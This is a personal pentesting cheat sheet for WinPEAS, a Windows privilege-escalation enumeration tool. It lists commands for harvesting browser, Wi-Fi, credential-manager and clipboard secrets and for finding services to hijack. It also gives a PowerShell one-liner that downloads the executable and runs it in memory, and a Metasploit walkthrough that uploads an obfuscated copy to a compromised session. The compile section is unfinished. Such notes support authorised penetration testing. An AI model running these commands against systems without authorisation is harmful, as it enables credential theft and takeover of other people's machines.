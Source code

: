 # WinPEAS

## 01 - Compile

- **Install a targeting pack**

https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481

- **Compile WinPEAS

TODO: figure it out how to manually compile WinPEAS in C#

```
C:\> git clone https://github.com/carlospolop/PEASS-ng.git

C:\> cd PEASS-ng\winPEAS\winPEASexe\winPEAS

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> copy Program.cs Program.cs.bak

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet new console --force

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet add package Microsoft.VisualStudio.UnitTesting --version 11.0.50727.1

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> del Program.cs; move Program.cs.bak Program.cs
```

_**I'm still having an error**_

`C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1`

## 02 - Manual

### 2.1 - Usage

- **It will display all of the results once executed**

`C:\> winPEASx64.exe`

- **Runs the enumeration tool but does not display the banner**

`C:\> winPEASx64.exe quiet`

- **Look for sensitive files**

`C:\> winPEASx64.exe fileinfo`

- **Enumerate web browser databases credentials**

`C:\> winPEASx64.exe browserinfo`

- **Find credentials on the Windows machine** **and check for** [[AlwaysInstallElevated]]

`C:\> winPEASx64.exe windowscreds`

- **Obtaining Wi-Fi passwords, credential manager and clipboard information using the command prompt commands**

`C:\> winPEASx64.exe quiet cmd`

- **Display the results that is related only to the user information**

`C:\> winPEASx64.exe userinfo`

- **Enumerate installed programs that we might look into**

`C:\> winPEASx64.exe applicationsinfo`

- **Enumerate to discover any insecure services that we can hijack**

`C:\> winPEASx64.exe servicesinfo`

- **Provide information related to the current running processes**

`C:\> winPEASx64.exe processinfo`

- **Discover networking information**

`C:\> winPEASx64.exe networkinfo`

- **Enumerating the whole system and find kernel vulnerabilities**

`C:\> winPEASx64.exe systeminfo`

- **Enumerate the system quickly yet it's gonna be noisy and might be a risk to OPSEC that does absorb some resources**

`C:\> winPEASx64.exe quiet searchfast`

- **Search everything on the system**

`C:\> winPEASx64.exe quiet searchall`

### 2.2 - Download and Execute

```powershell
$url = 'https://github.com/carlospolop/PEASS-ng/releases/download/20220821/winPEASx64.exe'

$wp = [System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

## 03 - Metasploit

```
$ sudo cp peass.rb /usr/share/metasploit-framework/modules/post/multi/gather/

$ sudo wget -O /usr/share/metasploit-framework/modules/post/multi/gather/peass.rb https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/metasploit/peass.rb

msf > reload_all

msf > use post/multi/gather/peass

msf post(multi/gather/peass) > options

Module options (post/multi/gather/peass):

   Name        Current Setting                              Required  Description
   ----        ---------------                              --------  -----------
   PARAMETERS                                               no        Parameters to pass to the script
   PASSWORD    w2ogatdfgsh1mcathikl7j39alk715q7             no        Password to encrypt and obfuscate the script (randomly generated). The length
                                                                      must be 32B. If no password is set, only base64 will be used.
   PEASS_URL   https://github.com/carlospolop/PEASS-ng/rel  yes       Path to the PEASS script. Accepted: http(s):// URL or absolute local path. Lin
               eases/latest/download/winPEASany_ofs.exe               peas: https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas
                                                                      .sh
   SESSION                                                  yes       The session to run this module on
   SRVHOST                                                  no        Set your metasploit instance IP if you want to download the PEASS script from
                                                                      here via http(s) instead of uploading it.
   SRVPORT     443                                          no        Port to download the PEASS script from using http(s) (only used if SRVHOST)
   SSL         true                                         no        Indicate if you want to communicate with https (only used if SRVHOST)
   SSLCert                                                  no        Path to a custom SSL certificate (default is randomly generated)
   TEMP_DIR                                                 no        Path to upload the obfuscated PEASS script inside the compromised machine. By
                                                                      default "C:\Windows\System32\spool\drivers\color" is used in Windows and "/tmp
                                                                      " in Unix.
   TIMEOUT     900                                          no        Timeout of the execution of the PEASS script (15min by default)
   URIPATH     /u6xm.txt                                    no        URI path to download the script from there (only used if SRVHOST)

msf post(multi/gather/peass) > advanced

Module advanced options (post/multi/gather/peass):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   ListenerBindAddress                   no        The specific IP address to bind to if different from SRVHOST
   ListenerBindPort                      no        The port to bind to if different from SRVPORT
   ListenerComm                          no        The specific communication channel to use for this service
   SSLCipher                             no        String for SSL cipher spec - "DHE-RSA-AES256-SHA" or "ADH"
   SSLCompression       false            no        Enable SSL/TLS-level compression
   SSLVersion           Auto             yes       Specify the version of SSL/TLS to be used (Auto, TLS and SSL23 are auto-negotiate) (Accepted: Aut
                                                   o, TLS, SSL23, SSL3, TLS1, TLS1.1, TLS1.2)
   SendRobots           false            no        Return a robots.txt file if asked for one
   URIHOST                               no        Host to use in URI (useful for tunnels)
   URIPORT                               no        Port to use in URI (useful for tunnels)
   VERBOSE              false            no        Enable detailed status messages
   WORKSPACE                             no        Specify the workspace for this module

msf post(multi/gather/peass) > set peass_url http://<IP>:<PORT>/winPEASx64.exe

msf post(multi/gather/peass) > set session <session_id>

msf post(multi/gather/peass) > run

[+] PEASS script successfully retrieved.
[*] Encrypting PEASS and encoding it in Base64...
[*] Uploading obfuscated peass to C:\Windows\System32\spool\drivers\color\1ecke...
[+] Uploaded
[*] Running PEASS...
..[snip]..

[+] PEASS output saved to: /root/.msf4/loot/20220515165546_default_10.0.2.15_PEASS_757580.txt
[*] Post module execution completed
```

---
## References

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

- [WinPEAS Metasploit Module](https://github.com/carlospolop/PEASS-ng/tree/master/metasploit)